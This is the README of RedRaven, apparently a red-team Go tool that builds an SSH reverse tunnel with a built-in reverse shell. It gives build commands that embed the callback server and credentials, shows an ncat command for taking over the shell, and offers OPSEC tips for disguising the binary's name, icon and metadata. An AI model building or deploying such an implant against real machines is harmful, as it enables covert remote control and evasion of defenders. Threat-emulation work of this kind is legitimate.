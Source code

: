 ## RedRaven

RedRaven is a golang (recommend v1.15, v1.13 min) cross platform implementation of an ssh reverse tunnel (with a built in reverse shell) similar to:  

    ssh -R 8080:localhost:8080 -i ./privkey.pem user@serverAddr

This opens a tunnel between the two endpoints and allows data to be exchanged this direction:
   
    server:8080 ---> client:8080

Once authenticated a process on the SSH server can interact with the service answering to port 8080 of the client. In this case a built in reverse shell that you can interact with via ncat on the ssh server.  As this is a outbound model vs a bind you don't need to deal with any NAT/firewall rules assuming outbound ssh is allowed.

## Dependices
* [Go](https://golang.org/) 1.13+
* GNU make
* [goversioninfo](https://github.com/josephspurrier/goversioninfo) (needed to add the windows resource infromation to the binary)
* osslsigncode (needed to sign the windows binary) if you don't care about signing you can comment these lines out in the Makefile.

## How to build
The only thing you should need to modify is the Makefile for the variable "PATH_TO_PEM."  Note becasue the variables are injected at build time via the Makefile.  Second, one may need to uncomment the log.Fatal lines in the main.go for troubleshooting, these statements are commented out for threat emulation purpose to excerise the blue IR and RE teams.  Note you may also need to run "make depends" first to generate the generate self signed certificate.

### Example 1 
You plan to use public Key auth, to do this you first need to set the PATH_TO_PEM variable in the Makefile and 
compile the binary with the nessecary paramaters for example:

    make linux64 PEM=true USER=ubuntu SERVER=<FQDN or IPaddr>:<PORT>

### Example 2 
You plan to use password auth, compile the binary with the nessecary paramaters for example:

    make linux64 PEM=false USER=ubuntu SERVER=acme.com:22 PASSWD=123pass

Note that it is possible to have both a PEM and PASSWD set, the PEM=BOOL controls what is used.

## On the SSH Server (gray space)
SSH to the server to interact with the target and type: 

    ncat localhost 8080

note control-c will kill ncat but it will not terminate the process on the client.  Another words the ssh session is still active. On a windows systems you would need to do something like the following:

    tasklist | findstr putty
    taskkill /F /PID <PID #>

## OPSEC
Things to consider for windows:
* ```You are embedding credentials in the binary being deployed, take precautions!```
* The name of the binary
* The icon
* The values in the ./resource/verioninfo.json file especially "OriginalFilename" - this should match the binary name set in the Makefile
* The fact this uses a self signed Certificate 
